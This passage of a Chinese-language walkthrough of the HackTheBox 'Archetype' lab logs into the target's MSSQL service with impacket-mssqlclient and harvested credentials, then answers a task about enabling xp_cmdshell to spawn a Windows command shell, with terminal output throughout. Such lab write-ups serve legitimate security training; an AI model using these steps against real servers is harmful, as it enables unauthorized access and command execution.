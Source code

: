 既然获得了账户密码，这里使用kali自带的mssql客户端impacket-mssqlclient来连接靶机上的SQL服务

```powershell
┌──(root㉿kali)-[~]
└─# impacket-mssqlclient ARCHETYPE/sql_svc@10.129.90.203 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 

```

**PS:这里有个特别坑B的东西，下载下来的那个文件里可以看到用户名是`ARCHETYPE\sql_svc`

但是登录的时候他妈的一直失败，看别人的记录发现把反斜杠改成了斜杠。`ARCHETYPE/sql_svc`

我也不知道为啥

## task5

What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

为了生成Windows命令shell，可以使用Microsoft SQL Server的哪些扩展存储过程？

> 输入help指令显示了可用命令，这里的`enable_xp_cmdshell`是允许启用系统cmd命令行的指令。`xp_cmdshell {cmd}`是执行cmd命令的。那这里就先允许启用命令行，然后根据终端上的提示输入重置命令

```powershell
┌──(root㉿kali)-[~]
└─# impacket-mssqlclient ARCHETYPE/sql_svc@10.129.90.203 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```
